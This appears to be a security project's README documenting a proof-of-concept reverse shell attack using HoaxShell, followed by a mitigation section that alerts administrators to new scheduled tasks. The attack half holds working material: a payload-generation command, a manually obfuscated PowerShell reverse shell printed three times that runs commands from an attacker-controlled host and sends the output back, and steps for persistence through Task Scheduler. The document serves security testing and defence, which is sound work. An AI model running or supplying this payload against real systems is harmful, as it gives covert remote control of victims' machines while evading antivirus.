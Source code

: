 # POC 4 - Reverse Shell to Remain on Device

## Description

A reverse shell attack is an attack which allows attacker to open ports within the victim's machine. These opened ports allow the attackers to remotely access the victims organisation's network. 

These reverse shell's may be difficult to detect as threat actors may build more complex scripts to evade both the firewall implemented within the system as well as the antivirus implemented.

This attack aims to outline the threats posed to the organisation from a reverse shell attack. 

## Steps to Carry Out Exploitation

There are a total of 2 steps to be caried out during the process of conducting a reverse shell attack.

The following are the 2 steps taken during the POC.

1. [Preparation Phase](#preparations)
2. [Exploitation Phase](#exploitation)

The preparation phase covers all preperatory needs inclusive of the installation of tools that can possibly prepared by the threat attacker. 

The exploitation phase outlines the steps that the insider can possibly take to both remain undetected within the machine along with achieving the targeted goal of the insider threat attacker.

### Preparations

1. Git clone the Hoax Shell repository

```sh
git clone https://github.com/t3l3machus/hoaxshell.git
```

2. Navigate into the repository and install all dependencies

```sh
# Navigate into the repository
cd ./hoaxshell

# Install dependencies
python -m pip install -r requirements.txt
```

3. Run the following shell to generate the Hoaxshell payload

```sh
sudo python3 hoaxshell.py -s <your_ip> -r -H "Authorization"
```

![Generating Payload using HoaxShell](/images/POC_4/Preparation/POC4_Generating_Payload.png)

4. Manually obfuscating HoaxShell Script by adding `'`, `splitting strings of character`, and `randomising casing of PowerShell functions`

```ps1
$xxx='None';$s='<your_ip>:8080';$i='83d2a6b0-c13433e2-5ea52d90';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/83d2a6b0 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/c13433e2 -Headers @{"Authorization"=$i}).Content;if ($c -ne $xxx) {$r=i''e''x $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/5ea52d90 -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

### Exploitation

1. Run the following within a PowerShell session or Command Prompt

Command Prompt
```cmd
powershell $xxx='None';$s='<your_ip>:8080';$i='83d2a6b0-c13433e2-5ea52d90';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/83d2a6b0 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/c13433e2 -Headers @{"Authorization"=$i}).Content;if ($c -ne $xxx) {$r=i''e''x $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/5ea52d90 -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

PowerShell
```ps1
$xxx='None';$s='<your_ip>:8080';$i='83d2a6b0-c13433e2-5ea52d90';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/83d2a6b0 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/c13433e2 -Headers @{"Authorization"=$i}).Content;if ($c -ne $xxx) {$r=i''e''x $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/5ea52d90 -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

2. Notice that the attacker machine would have a shell session established after the command has been ran

![HoaxShell Connection Established](/images/POC_4/Exploitation/POC4_HoaxShell_Session.png)

3. Run the following command on the attacker system to confirm that the attacker machine is connected and able to retrieve information from the organisations device

![Listing of Victim's machine directory from HoaxShell exploit script](/images/POC_4/Exploitation/POC4_Directry_Listing_from_HoaxShell.png)

4. Save the PowerShell script and run it on startup using Task Scheduler

5. Run the following command to grab the session mode when the shell has been closed on the attacker machine but is still running on the organisations device

```sh
sudo python3 hoaxshell.py -s <your_ip> -g
```

## Possible Mitigations and Recommendations

1. [Notify Administrators of New Scheduled Tasks](#notify-administrators-of-new-scheduled-tasks)
2. Disable unused ports and consider using a destination net
3. Configure the firewall to allow only required application's application ID*
4. Update antivirus signature database

**NOTE**
*Only applicable to Layer 7 Firewalls

### Notify Administrators of New Scheduled Tasks

While tasks are being constantly scheduled within systems to perform an update of system, scanning for malicious files, etc., threat actors can make use of scheduled tasks as an advantage to schedule exploits to run on start up or at different times of the day. 

To combat this, one method is to notify the administrators of any new scheduled tasks to allow administrators to further look into and investigate any newly scheduled task which may pose a potential threat towards the organisations active directory. 

#### Steps to Notify Administrators of New Scheduled Tasks

1. Create a PowerShell script like the following modifying the information accordingly

```ps1
# Define the event ID to monitor for task creation
$EventId = 106

# Get the latest event that matches the specified event ID from the Task Scheduler log
$Event = Get-WinEvent -MaxEvents 1 -FilterHashTable @{
    LogName = 'Microsoft-Windows-TaskScheduler/Operational'
    ID = $EventId
} | Select-Object Id, Message, MachineName, ProviderName

# Check if an event is found
if ($Event) {
    # Email configuration
    $EmailFrom = "your-email@example.com"
    $EmailTo = "recipient@example.com"
    $Subject = "Task Created Alert - $($Event.MachineName)"
    $Body = "EventID: $($Event.Id)`nSource: $($Event.ProviderName)`nMachineName: $($Event.MachineName)`nMessage: $($Event.Message)"

    # SMTP Server configuration for a generic mail server
    $SMTPServer = "mail.example.com"
    $SMTPPort = 587
    $SMTPUsername = "your-email@example.com"
    $encrypted = Get-Content c:scriptsencrypted_password.txt | ConvertTo-SecureString
    $credential = New-Object System.Management.Automation.PsCredential($SMTPUsername, $encrypted)

    # Create and configure the SMTP client
    $SMTPClient = New-Object Net.Mail.SmtpClient($SMTPServer, $SMTPPort)
    $SMTPClient.EnableSsl = $true
    $SMTPClient.Credentials = $credential

    # Send the email
    $SMTPClient.Send($EmailFrom, $EmailTo, $Subject, $Body)

    Write-Host "Email sent successfully."
} else {
    Write-Host "No matching event found."
}
```

2. Test that the email is able to be sent by running the PowerShell Script

3. Open `Event Viewer` and navigate to the following path `Applications and Services > Microsoft > Windows > Task Scheduler > Operational`

![Event Viewer Task Scheduler Operational Tab](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Event_Viewer_Task_Scheduler_Operational_Tab.png)

4. Filter the current log to show all logs with an `Event ID` of `106`

![Filtering Event Log with Event ID 106](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Event_Viewer_Filter_By_Event_ID.png)

![Filtered Event Log](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Event_Viewer_Filtered_Log.png)

5. Right Click the Task and `Attach Task To This Event`

![Right Click Options](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Event_Viewer_Task_Options.png)

6. Create the task with the following details

**General Tab**
|Options|Value|
|--|--|
|Name|NewScriptAlert|
|Description|Alert Administrators of any new scripts created|

![Creating Basic Task](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Creating_Basic_Task.png)

**New Action Tab**
|Options|Value|
|--|--|
|Action|Start a program|
|Program/script|C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe|
|Add arguments (optional)|<Path/To/File>|

![Task Scheduler Actions Options](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Basic_Task_Scheduler_Actions.png)

7. Verify that the settings are configured as per follows

![Task Scheduler Summary](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Basic_Task_Scheduler_Summary.png)

8. Check the `Open Properties dialog for the task when I click Finish` option

9. Further modify the following from the properties dialog

**General Tab**

![Task Scheduler General](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Task_Scheduler_General.png)

**Conditions Tab**

![Task Scheduler Conditions](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Task_Scheduler_Conditions.png)

**Settings Tab**

![Task Scheduler Settings](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Task_Scheduler_Settings.png)

**Account Login Prompt**

![Task Scheduler Account Login](/images/POC_1/Mitigation/Notify_New_Tasks/POC1_Task_Scheduler_Account_Login.png)

10. Trigger the task and check that an email notification is triggered

## References

[Hoax Shell](https://github.com/t3l3machus/hoaxshell)  
[What is Reverse Shell](https://www.imperva.com/learn/application-security/reverse-shell/)  
[Manually Obfuscating Hoax Shell Payload](https://www.youtube.com/watch?v=iElVfagdCD4)  
